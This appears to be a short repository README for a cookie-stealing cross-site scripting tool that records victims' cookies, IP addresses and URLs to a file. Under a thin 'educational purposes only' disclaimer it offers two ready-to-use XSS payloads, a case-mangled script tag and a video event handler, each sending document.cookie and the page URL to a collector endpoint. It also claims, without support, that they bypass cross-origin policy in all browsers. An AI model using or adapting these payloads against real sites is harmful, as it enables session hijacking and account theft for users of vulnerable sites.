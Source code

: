 <h2>For educational purposes only, use at your own responsibility.</h2>

<p>This script gets  all cookies, ip address and url from vulnerable site and stores it in data.txt.</p>

<p>Here same payload examples for usage.</p>

<sCRiPt>new Image().src="https://localhost/getCookies.php?u="+document.location.href+"&c="+document.cookie;</sCRiPt>
<video autoplay onloadstart="new Image().src=`https://localhost/getCookies.php?u=${document.location.href}&c=${document.cookie}`;" src=x></video>



<p>These examples in above is written for bypassing cross site origin policy in all browsers but you can use your own payload instead.</p>

From: Cyberzone.az
